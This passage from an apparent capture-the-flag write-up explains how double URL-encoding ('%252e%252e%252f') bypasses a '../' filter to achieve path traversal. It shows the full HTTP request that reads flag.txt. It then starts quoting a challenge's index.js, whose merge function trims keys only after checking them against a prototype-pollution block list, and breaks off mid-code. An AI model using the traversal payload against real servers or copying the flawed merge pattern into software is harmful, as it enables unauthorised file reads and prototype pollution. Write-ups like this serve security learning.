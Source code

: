 **WHAT THE HACK?!** Did the dev really forgot some checks...? Looks like my request hit the line `if (filename.includes("../")){` even tho I didn't login or tried to bypass the `isAdmin` check.

Without thinking once more, I added a filename parameter to my request and url-encoded the path twice: this is done to bypass the `../` check, in fact the `../` is sent as `%252e%252e%252f`, which is then processed this way:
1. The webserver decodes it to `%2e%2e%2f`.
2. The string is checked against `../` and the check is passed.
3. The string is decoded by `querystring.unescape` which acts in a regular situation as `decodeURIComponent` and becomes `../`
4. The string is used to read the file, meaning we have a path traversal.

The following request lead me to the last flag:
```http
POST /guinjutsu HTTP/1.1
Host: 54.157.87.12
Content-Type: application/x-www-form-urlencoded
Content-Length: 87

filename=..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fflag.txt
```

**Flag:** `Yogosha{You_Have_Really_Nailed_IT_And_Saved_Konoha}`

## [Bonus] Revenge

This challenge was not meant to be release but in the end it was as a 0 points one which fixes part of the bugs of the "Final Beast".

```
This is my revenge for Final Beast , Have fun solving it , if it's solvable ofc.. Flag is in /flag.txt
Link: http://54.157.87.12:1337
Congrats on completing all the previous challenges \o/
```

Attached to the challenge there was also the update `index.js`:
```javascript
var express=require("express");
var bodyParser=require("body-parser");
var fs = require('fs');
var path=require("path");
var querystring=require("querystring");
const { MongoClient, ObjectID } = require('mongodb');
const MONGO_URL=process.env.MONGO_URL;
const SECRET=process.env.SECRET;
var app=express();
const session=require("express-session");
const ejs=require("ejs");
const sanitize=require("mongo-sanitize");
app.use(session({secret:SECRET,resave:false,saveUninitialized:false}))
app.use(express.static('static'));
app.set('views', './views');
app.set('view engine', 'ejs');
app.use(bodyParser.urlencoded({extended:true}));
const client = new MongoClient(MONGO_URL,{useUnifiedTopology: true});

const UNSAFE_KEYS = ["__proto__", "constructor", "prototype"];

const merge = (obj1, obj2) => {
  for (let key of Object.keys(obj2)) {
    if (UNSAFE_KEYS.includes(key)) continue; 
    const val = obj2[key];
    key = key.trim();                        
    if (typeof obj1[key] !== "undefined" && typeof val === "object") {
      obj1[key] = merge(obj1[key], val);     
    } else {
```